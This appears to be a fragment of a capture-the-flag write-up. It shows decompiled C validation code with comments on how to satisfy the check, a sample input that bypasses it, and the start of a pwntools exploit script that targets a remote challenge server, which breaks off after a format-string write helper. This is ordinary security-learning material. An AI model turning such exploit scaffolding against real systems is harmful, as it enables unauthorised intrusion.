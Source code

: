 ```c
  v20 = __readfsqword(0x28u);
  haystack[5] = 0;
  for ( i = 0; i <= 4; ++i )
    haystack[i] = input[strlen(input) - 5 + i];
  if ( !strstr(haystack, "1337") )              // 14:19
    goto LABEL_23; //must contain 1337, and be either X1337 or 1337X
  v1 = strtol(haystack, 0LL, 10);
  v2 = 100 * (input[13] - '0') + 1000 * (input[6] - '0') + input[15] - '0';
  v3 = v1;
  v4 = strlen(input);
  v5 = strlen(input) * v4;
  if ( v3 % (strlen(input) * v5) != v2 ) 
    goto LABEL_23;// 1337XorX1337 % len**3 must have ten digit being 0
  for ( j = 0; j <= 4; ++j )
  {
    v16[j] = input[j];
    v17[j] = input[strlen(input) - 10 + j];
  }
  v16[5] = 0;
  v17[5] = 0;
  for ( k = 0; k <= 14; ++k )
    v19[k] = input[k];
  v19[14] = 0;
  for ( l = 0; l <= 3; ++l )
    _1337[l] = haystack[l + 1];
  _1337[4] = 0;
  if ( strstr(v19, _1337)
    && (v6 = *input, v6 == input[strlen(input) - 8])// [0] == [11]
    && (v7 = input[strlen(input) - 2] - 48,
        v8 = input[strlen(input) - 3]
           - 48                                 // [17] + [16] + [15] + 1 == [1]
           + v7,
        v8 + input[strlen(input) - 4] - 48 + 1 == input[1] - 48)
    && (v9 = strlen(input), v9 == 19 * ((unsigned __int64)(0xD79435E50D79435FLL * (unsigned __int128)v9 >> 64) >> 4)) )// len must == 19
  {
    result = 1LL;
  }
  else
  {
LABEL_23:
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

Actually the restriction is easier to bypass than second version, `X813373XXXXXX931337` can pass the check.

```python
from pwn import *

g_local=0
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process(["./ross.elf", "flag{test}"])
	gdb.attach(sh)
else:
	sh = remote("82.196.10.106", 31337)

def hn(pos, val):
	assert val < 0x10000
```
